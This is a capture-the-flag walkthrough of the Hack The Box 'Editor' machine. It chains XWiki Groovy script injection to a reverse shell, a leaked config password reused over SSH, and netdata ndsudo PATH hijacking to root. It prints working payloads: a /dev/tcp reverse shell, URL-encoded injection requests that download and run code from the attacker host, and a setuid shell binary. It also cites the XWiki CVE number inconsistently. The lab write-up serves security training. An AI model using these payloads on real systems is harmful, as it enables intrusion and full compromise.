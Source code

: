 # Editor

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, /etc/hosts | Identified open ports and domain `editor.htb` |
| 2 | (Web) | XWiki Enumeration | Found XWiki version `15.10.8` and associated CVE-2025-24983 |
| 3 | xwiki | Groovy Script Injection (CVE-2025-24983) | Executed remote command to download and run a reverse shell script |
| 4 | xwiki | Shell Enumeration | Gained a shell as the `xwiki` user and identified user `oliver` |
| 5 | xwiki -> oliver | File Enumeration | Found `oliver`'s SSH password (`theXXXXXXXeam99`) in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` |
| 6 | oliver | SSH Login | Gained an SSH shell as `oliver` and retrieved `user.txt` |
| 7 | oliver | Port Enumeration | Used `ss -tulnp` to find `netdata` service listening on `127.0.0.1:19999` |
| 8 | oliver | SSH Local Port Forwarding | Forwarded port `19999` to `localhost` to access the `netdata` dashboard |
| 9 | oliver | Netdata Vulnerability (CVE-2024-32019) | Identified a local privilege escalation vulnerability in `netdata` version `1.45.2` |
| 10 | oliver -> root | Custom Executable & PATH Manipulation | Exploited `ndsudo` to run a malicious binary (`nvme`) with root privileges |
| 11 | root | Root Shell | Gained a `root` shell and retrieved `root.txt` |
```


#### Initial Enumeration
First, I performed an nmap scan and found several open ports. The most interesting finding was the domain editor.htb, which I added to my /etc/hosts file.

Bash

```
sudo nano /etc/hosts
<MACHINE_IP> editor.htb
```
Navigating to http://editor.htb in a browser revealed a code editor interface. Further enumeration showed a service running on port 8080, which turned out to be XWiki, an open-source wiki platform.


### Foothold and user.txt
The XWiki instance was running version 15.10.8. A quick search for this version, in combination with "XWiki", led me to a vulnerability with the CVE ID CVE-2025-24983.

I searched for an exploit for this CVE and found a helpful Python script on GitHub: https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py. This exploit allows for remote code execution via a Groovy script injection.

The exploitation process involved two main steps: uploading a reverse shell script and then executing it.

First, I created a simple reverse shell script named shell.sh:

Bash

```
cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
```

Next, I hosted this script on my local machine using a Python web server.

Bash

```
python -m http.server 80
```
![Python](Pictures/htb_Editor_Python_S.png)


From a browser, I used the following URL to upload the shell.sh script to the target machine's /tmp directory. I made sure to replace <YOUR_IP> with my IP address.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://<YOUR_IP>/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

With the file uploaded, I set up a netcat listener on my machine.

Bash
```
nc -lnvp 4444 

##OR 

python3 penelope.py -i tun0 4444
```
Finally, I used a second browser tab with another URL to execute the uploaded script, which immediately gave me a reverse shell as the xwiki user.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Note: If the shell doesn't connect, it may be necessary to run the upload and execute commands again.

The shell connected, and I confirmed my user was xwiki. I then checked the /etc/passwd file and identified a user named oliver in the /home directory.

To escalate my privileges from xwiki to oliver, I began looking for credentials. I found a potentially useful configuration file at /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml.

Bash

```
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

The output contained several passwords, including theXXXXXXXXXX99. I attempted to use this password to log in via SSH as the user oliver, and it was successful.

![Rev](Pictures/htb_Editor_xwiki_RevShell_Password_leak.png)

Bash

```
ssh oliver@editor.htb
```

With the SSH shell, I was able to retrieve the user.txt flag.

### Privilege Escalation and root.txt

Once logged in as oliver, I checked for potential privilege escalation vectors. My first attempt was to check sudo permissions, but this was not fruitful.

Bash

```
oliver@editor:~$ sudo -l
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

Next, I enumerated network sockets with ss -tulnp to identify any services running locally.

Bash

```
oliver@editor:~$ ss -tulnp
```

The output showed a service listening on port 19999 on the loopback address (127.0.0.1), which was identified as netdata.

To interact with this service, I used SSH local port forwarding to tunnel the port to my local machine.

Bash

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

![Script](Pictures/htb_Editor_SSH_PORTFAct.png)

By navigating to http://localhost:19999 in my browser, I could access the netdata dashboard. The dashboard indicated that the service was running version 1.45.2 and needed to be updated.

![Script](Pictures/htb_Editor_SSH_PORTF.png)

A quick search for netdata 1.45.2 revealed a local privilege escalation vulnerability, CVE-2024-32019. The vulnerability's Proof of Concept (PoC) involves using a specific ndsudo command to execute an arbitrary binary with root privileges.

The PoC steps are as follows:

Create a malicious executable with a name that ndsudo expects (e.g., nvme).

Place the executable in a writable path (e.g., /tmp).

Modify the PATH environment variable to include this path.

Run ndsudo with the designated command.

I created a C file named malicious.c that would spawn a root shell when executed.

C

```
// mal.c
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

![Script](Pictures/htb_Editor_CodeC.png)

I then compiled this file, naming the output nvme.

Bash

```
gcc -o nvme malicious.c
```

After compiling, I started a Python server on my local machine to host the nvme binary.

![Script](Pictures/htb_Editor_CodeCcompile.png)

Bash

```
python -m http.server 80
```

![Script](Pictures/htb_Editor_Python_S.png)

Finally, from my oliver shell, I downloaded the binary, made it executable, updated my PATH, and executed the vulnerable command to get a root shell.

Bash

```
cd /tmp
wget http://<YOUR_IP>/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
![Priviledge Esc](Pictures/htb_Editor_Priviledge_Esc.png)

### Root

![Root Flag](Pictures/htb_Editor_Root_Flag.png)

Executing the command immediately dropped me into a root shell, allowing me to retrieve the root.txt flag from the /root directory.


**Pwned! Editor**
